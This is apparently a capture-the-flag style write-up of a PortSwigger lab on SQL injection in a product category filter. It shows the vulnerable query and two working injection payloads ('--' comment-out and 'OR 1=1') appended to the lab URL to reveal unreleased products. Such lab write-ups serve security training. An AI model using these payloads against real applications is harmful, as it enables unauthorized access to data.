 ## This lab contains a SQL injection vulnerability in the product category filter.When the user selects a category, the application carries out a SQL query like the following:
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
## To solve the lab, perform a SQL injection attack that **causes the application to display one or more unreleased products.**

## Step 1 : Access the lab
![access](Images/l1step-1.png)
## Step 2 : Check Gifts 
![check gifts](Images/l1step-2.png)
# When we explore gifts section there is only three released product.
# Let us try to check if there are any unreleased product
## Use Burp Suite to intercept and modify the request that sets the product category filter.OR modify URL and resubmit request.

## first attempt
```
'--'AND released=1'
```
```
https://0a9900d4035784a1801abc1a00fb0066.web-security-academy.net/filter?category=Gifts'--'AND released=1'
```
![attempting](Images/l1step-second%20last.png)
-- Application displays 4 products including one unreleased product.
## second attempt
```
'OR 1=1 --released=1
```
```
https://0a9900d4035784a1801abc1a00fb0066.web-security-academy.net/filter?category=Gifts'OR 1=1 --released=1
```
![attempting](Images/l1step-last.png)

-- Application displays more than 4 unreleased products.
-- double hyphen(--)  is used to comment out or ignore  what is written after hyphen which ignored the filter released product=1 and displays all the product.
